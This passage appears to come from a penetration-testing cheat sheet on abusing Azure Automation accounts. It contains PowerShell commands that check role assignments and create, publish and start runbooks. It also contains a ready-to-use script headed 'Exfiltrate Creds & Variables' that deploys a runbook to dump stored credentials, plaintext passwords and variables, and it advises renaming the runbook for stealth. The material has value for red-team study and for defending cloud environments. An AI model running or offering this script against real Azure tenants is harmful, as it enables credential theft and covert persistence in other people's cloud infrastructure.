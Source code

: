 {% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
{% endcode %}

### Exfiltrate Creds & Variables defined in an Automation Account using a Run Book

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}
